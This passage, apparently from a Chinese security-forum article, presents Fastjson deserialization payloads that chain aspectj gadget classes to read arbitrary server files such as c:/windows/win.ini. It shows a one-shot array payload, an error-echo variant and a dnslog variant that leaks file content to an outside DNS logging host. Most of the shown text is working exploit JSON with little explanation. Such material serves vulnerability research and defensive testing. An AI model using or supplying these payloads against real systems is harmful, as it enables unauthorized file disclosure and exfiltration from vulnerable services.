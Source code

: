 ```json
{
    "username":{
        "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
        "@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
        "fileName":"c:/windows/win.ini"
    },
    "password":"admin"
}
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-4bfe54143b9eda6c4508b813b499c69078663a85.png)  
也可以直接利用`JSON.parse`可以解析`[]`的特性直接一次打：

```json
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"c:/windows/win.ini"},"password":"admin"}]
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-c96c5f4b940609dea7bed280625526e2dae83755.png)

#### 4.1.1.2 报错回显法

`payload38`：

```json
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"java.lang.Character"{"c":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"c:/windows/win.ini"}},"password":"admin"}]
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-d0bb768f33e7f78db5ddc2001ef8f6326052f039.png)

#### 4.1.1.3 dnslog回显法（需要对方为mac环境且dnslog平台支持特殊符号）

`payload39`：

```json
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"1.txt"},"password":{"@type":"java.net.Inet4Address","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{"$ref":"$"},"country":"aaa.qmc8xj4s.dnslog.pw"}}}}]
```
